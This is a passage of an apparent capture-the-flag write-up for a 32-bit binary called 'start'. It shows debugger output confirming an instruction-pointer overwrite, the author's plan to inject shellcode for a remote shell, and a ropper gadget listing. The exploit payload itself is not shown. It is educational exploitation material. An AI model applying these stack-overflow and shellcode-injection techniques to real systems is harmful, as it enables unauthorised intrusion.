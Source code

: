 ```bash
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp 0xffffcafc —▸ 0xffffcb0a ◂— 0xccb40000
01:0004│     0xffffcb00 ◂— 1
02:0008│     0xffffcb04 —▸ 0xffffcc89 ◂— '/mnt/c/Users/hzqzz/Downloads/pwnable/start'
03:000c│     0xffffcb08 ◂— 0
04:0010│     0xffffcb0c —▸ 0xffffccb4 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcb10 —▸ 0xffffccc4 ◂— 'NVM_RC_VERSION='
06:0018│     0xffffcb14 —▸ 0xffffccd4 ◂— 'WSL2_GUI_APPS_ENABLED=1'
07:001c│     0xffffcb18 —▸ 0xffffccec ◂— 'WSL_DISTRO_NAME=kali-linux'
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0 0x42424242 None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Look at ECX and EIP. We successfully overwrite with A's and B's. This challenge is not ret2win like I always do (im noob so I only know ret2win chall) so we need to inject a shellcode to the remote connection and get the root. So use ropper to find the gadgets.

```bash
$ pipx run ropper --file start
Gadgets
=======

0x0804809b: adc al, 0xc3; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048099: add esp, 0x14; ret;
0x080480a0: inc eax; int 0x80;
0x0804808f: int 0x80;
0x08048097: int 0x80; add esp, 0x14; ret;
0x08048085: je 0xae; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809a: les edx, ptr [ebx + eax*8]; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048095: mov al, 3; int 0x80;
0x08048095: mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804808d: mov al, 4; int 0x80;
0x0804808b: mov bl, 1; mov al, 4; int 0x80;
0x08048089: mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048087: mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809d: pop esp; xor eax, eax; inc eax; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804809e: xor eax, eax; inc eax; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809c: ret;

23 gadgets found
```
